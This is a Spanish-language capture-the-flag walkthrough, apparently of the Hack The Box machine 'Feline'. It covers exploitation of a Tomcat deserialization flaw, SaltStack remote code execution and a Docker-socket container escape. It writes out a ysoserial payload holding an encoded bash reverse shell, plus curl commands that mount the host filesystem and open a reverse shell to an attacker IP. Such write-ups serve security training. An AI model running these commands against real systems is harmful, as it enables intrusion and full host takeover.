

---
## Introducción

La máquina feline es una máquina linux de 64 bits la cual corre una versión de apache tomcat en el puerto 8080 la cual es vulnerable a un ataque de deserialización de java. Para la escalada de privilegios nos vamos a aprovechar del servicio saltstack para obtener root en un contenedor docker, a través del cual, y haciendo uso de de los sockets del servicio docker vamos a crear un contenedor que monte el sistema de ficheros de la máquina.

---
## Escaneo
```yml
nmap -p- -sV -sC --min-rate=5000 10.10.10.205 -Pn --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be
slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-26 16:19 CET
Nmap scan report for 10.10.10.205
Host is up (0.12s latency).
Not shown: 65500 filtered ports, 33 closed ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT
 STATE SERVICE VERSION
22/tcp open ssh
 OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
| 256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_ 256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open http Apache Tomcat 9.0.27
|_http-title: VirusBucket
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.51 seconds
```

La máquina tiene unicamente 2 puertos abiertos:
* Puerto 22: SSH
* Puerto 8080: HTTP (Apache Tomcat)

### Puerto 22
En el puerto 22 nos encontramos con un servidor SSH. Por ahora no nos es de utilidad, ya que no tenemos ningun tipo de credencial.

### Puerto 8080
En el puerto 8080 nos encontramos con un apache tomcat 9.0.27

---
## Enumeración

El único directorio visible a simple vista es /service


Vamos a abrir brupsuite y a ver como realiza la petición. Desde firefox no funciona el botón de sample por lo que no puedo ver en burpsuite la
petición. En chrome sin embargo funciona por lo que la captura de pantalla es de las devtools de chrome.


Vemos que sin estar autenticados podemos subir fichero.
Vamos a repetir la petición con curl para ver bien todos los parámetros y cambiar los valores.


Ahora que ya lo tenemos vamos a probar a cambiar los valores en la petición.


Vemos que poniendo en name el nombre del archivo también nos dice que se ha subido correctamente.
Vamos a intentar subirlo como se subiría un fichero de nuestra máquina utilizando curl


Vemos que nos devuelve un mensaje de subido correctamente.
Ya que el formulario de subida de ficheros nos permite mandarle parametros que nos son propiamente ficheros, vamos a intentar meterle caracteres raros ([]{}..) para ver si conseguimos que falle la subida del fichero.


Si metemos los caracteres en el parametro name nos devuelve que el fichero se ha subido correctamente.
Vamos a comprobar ahora el parametro filename.


Vemos que al meter caracteres extraños en el parametro filename nos devuelve el mensaje de invalid filename.
Vamos a hacer una ultima comprobacion, la cual consiste en mandar el parametro filename vacio.



Como podemos ver el servidor web nos devuelve un mensaje de error muy interesante.
De este mensaje de error podemos deducir 2 cosas:
* La ruta donde se suben los ficheros.
* El hecho de que java no procesa de manera correcta el parametro filename cuando va vacio.

Haciendo un poco de investigacion sobre la tecnología del servidor (apache tomcat 9.0.27) vemos que hay una vulnerabilidad reciente de deserialización en java (https://iotsecuritynews.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit0/) la cual podemos usar para obtener una rce.

Para comprobar que realmente es vulnerable vamos a usar el siguiente repo de github:
* https://github.com/masahiro331/CVE-2020-9484

Para esta comprobacion solo necesitamos el archivo groovy.session


Viendo el error de java que nos devuelve el fichero groovy.session, vemos que cumplimos todas las condiciones para poder obtener una rce a traves de la vulnerabilidad antes mencionada.



Sabiendo todo esto vamos a proceder a generar el payload con el que vamos a explotar esta vulnerabilidad.

---
## Generación del payload y explotación

Para generar nuestro payload vamos a utilizar la herramienta ysoserial:
* https://github.com/frohoff/ysoserial

Para generar nuestro payload me he basado en esta web: 
* https://book.hacktricks.xyz/pentesting-web/deserialization#exploit

Para nuestra rce, el payload que vamos a generar es una reverse shell en bash:
* ```bash -i >& /dev/tcp/<IP>/<Puerto> 0>&```

Como se indica en hacktricks, vamos a encodear el payload en base64:
* ```echo “bash -i >& /dev/tcp/<IP>/<Puerto> 0>&1” | base64```


El comando final para generar el payload sería:
* ```java -jar ysoserial-master-4df2ee2bb5-1.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMy8xMjM0IDA+JjEK}|{base64,-d}|-{bash,-i}">payload.session```

Una vez hemos generado nuestro archivo payload.session lo subimos al servidor y a través de la cookie de sesion lo leemos.
Esto se da porque tomcat maneja las sesiones a traves de ficheros .session, pero al llamarlos a traves de la cookie de sesión no requiere que le pongamos la extensión ya que la añade de manera automática.



con nuestro listener ya levantado vemos que recibimos la conexion.


Como podemos ver somos usuario tomcat.


### Enumeración ususario tomcat

ya somos usuario tomcat.
vamos a ver que tenemos en su home.



Vemos que en la carpeta home del usuario tomcat tenemos la flag de user.



En la carpeta del usuario no podemos escribir debido a que el propietario es root y no el propio usuario tomcat.En tmp cada minuto aproximadamente se borra el contenido, por lo que lo que subamos a esa carpeta durará poco tiempo en la máquina.

Por esto vamos a subir el script de enumeracion a la carpeta /opt/tomcat/logs




Del output del script de enumeración, podemos deducir de primeras que la maquina en un principio cuenta con el servicio docker, ya que tenemos una interfaz llamada *docker0*, que es la que se activa por defecto con el servicio docker.



La máquina cuenta también con dos puertos abiertos que a mi por lo menos me llamaron mucho la atención los cuales son 4505 y 4506, ya que son puertos
contiguos.



Vamos a buscar info sobre el posible servicio que esta corriendo en los puertos.
Empezamos por el 4505:
* https://www.speedguide.net/port.php?port=4505

Puerto 4506:
* https://www.speedguide.net/port.php?port=4506

Vemos que corresponden con el servicio saltmaster.
Saltmaster o Saltstack es un software relacionado con la automatización de sistemas it a traves de eventos programados.
* https://en.wikipedia.org/wiki/Salt_%28software%29
* https://docs.saltstack.com/en/getstarted/system/communication.html

Como podemos ver en el link anteriror saltstack utiliza 2 puertos. el 4505(publisher) y el
4506(request server).

Con esta informacion sobre la tecnología vamos a buscar exploits.

En la pagina de wikipedia de este framework, podemos ver al final un apartado de vulnerabilidades, el cual es muy interesante, ya que vemos una vulnerabilidad reciente referente a este servicio la cual nos daria una rce.
* https://nvd.nist.gov/vuln/detail/CVE-2020-11651


---
## escalada de privilegios

Con chisel vamos a exponer el puerto 4506 para poder lanzar desde nuestra máquina los checkeos correspondientes.





para la explotacion de este servicio vamos a usar un exploit de exploitdb el cual implemeta
checks para ver si realmente el servicio es vulnerable
* https://www.exploit-db.com/exploits/48421

Este exploit su aprovecha de los CVEs cve-2020-11651 y cve-2020-1652.
Como podemos observar, nos confirma que que el servico es vulnerable



vamos a explotarlo.




Somos usuario root. En un principio ya deberíamos tener la máquina, pero si nos vamos a
la raiz y ejecutamos ls -al vemos que realmente somos root pero dentro de un contenedor
de docker.



vamos a subir el script de linpeas para ver por donde podemos intentar escalar privilegios. Una vez subido y ejecutado, nos reseña que tenemos permisos de lectura y escritura sobre los sockets del servicio docker. 



* https://www.redtimmy.com/a-tale-of-escaping-a-hardened-docker-container/

Vamos a proceder a la explotación de docker:

1. Primero listamos las imagenes.

    
    Vemos que tenemos una imagen llamada sandbox.

2. Vamos a usar dicha imagen para realizar la escalada de privilegios.
    Lo que vamos a hacer es montar el sistema de ficheros entero en el docker y con ello todo lo que hagamos se reflejara en el host.
    ```
    curl -s -XPOST -H "Content-Type: application/json" --unix-socket / var / run / docker.sock -d "{\"Image\":\"sandbox\",\"Hostname\":\"feline\",\"cmd\":[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"bash -c 'bash -i>& /dev/tcp/10.10.14.23/1112 0>&1'\\\"\"],\"Binds\":[\"/:/mnt:rw\"]}" http :// localhost / containers / create
    ```
    Este comando nos devolvera el id del contenedor que hemos creado, el cual luego usaremos para levantarlo y obtener una reverse shell con el sistema de ficheros de la máquina monatdo en el.

3. Por ultimo con el siguiente comando arrancaremos el contenedor y levantaremos un listener de netcat en el puerto que le hayamos indicado cuando creamos el contenedor. En este caso usaremos el puerto 1122

    ```
    curl -XPOST --unix-socket/var/run/docker.sock http://localhost/containers/fdf541aa409a744d6658e70d85df15d9c3a2693dd4af7925622144fab21f0e88/ start
    ```
    